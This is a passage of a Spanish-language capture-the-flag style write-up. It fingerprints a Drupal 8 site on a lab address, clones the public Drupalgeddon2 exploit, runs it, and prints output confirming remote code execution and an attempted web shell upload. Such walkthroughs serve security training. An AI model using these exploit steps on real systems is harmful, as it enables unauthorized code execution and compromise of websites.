 ```bash
        <a href="/" data-drupal-link-system-path="&lt;front&gt;" class="is-active">Home</a>
      No front page content has been created yet.<br />Follow the <a target="_blank" href="https://www.drupal.org/docs/user_guide/en/index.html">User Guide</a> to start building your site.
    <div class="search-block-form block block-search container-inline" data-drupal-selector="search-block-form" id="block-bartik-search" role="search">
        <input title="Enter the terms you wish to search for." data-drupal-selector="edit-keys" type="search" id="edit-keys" name="keys" value="" size="15" maxlength="128" class="form-search" />
<div data-drupal-selector="edit-actions" class="form-actions js-form-wrapper form-wrapper" id="edit-actions"><input class="search-form__submit button js-form-submit form-submit" data-drupal-selector="edit-submit" type="submit" id="edit-submit" value="Search" />
        <a href="/contact" data-drupal-link-system-path="contact">Contact</a>
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

Ahora que sabemos la version podemos buscar un exploit para esta version: Clonamos este exploit
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ejecutaremos el siguiente comando para lanzar el exploit apuntando a la version vulnerable de node y drupal
```bash
ruby drupalgeddon2.rb http://172.17.0.2/drupal
```

### Ejecucion del Ataque
Una ves ejecutao tendremos informacion, Donde nos indica que se a subido un archivo maliciosos **shell.php** el cual nos permite realizar una llamada a nivel de sistema para ajecutar comandos
```bash
# Comandos para explotación
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://172.17.0.2/drupal/
--------------------------------------------------------------------------------
[+] Header : v8 [X-Generator]
[!] MISSING: http://172.17.0.2/drupal/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://172.17.0.2/drupal/core/CHANGELOG.txt    (HTTP Response: 200)
[!] MISSING: http://172.17.0.2/drupal/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Header : v8 [X-Generator]
[!] MISSING: http://172.17.0.2/drupal/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://172.17.0.2/drupal/core/includes/bootstrap.inc    (HTTP Response: 403)
[!] MISSING: http://172.17.0.2/drupal/includes/database.inc    (HTTP Response: 404)
[+] Found  : http://172.17.0.2/drupal/    (HTTP Response: 200)
[+] Metatag: v8.x [Generator]
[!] MISSING: http://172.17.0.2/drupal/    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/register)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: mail)
[i] Payload: echo UTBHIYKI
[+] Result : UTBHIYKI
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://172.17.0.2/drupal/shell.php)
[i] Response: HTTP 404 // Size: 16
```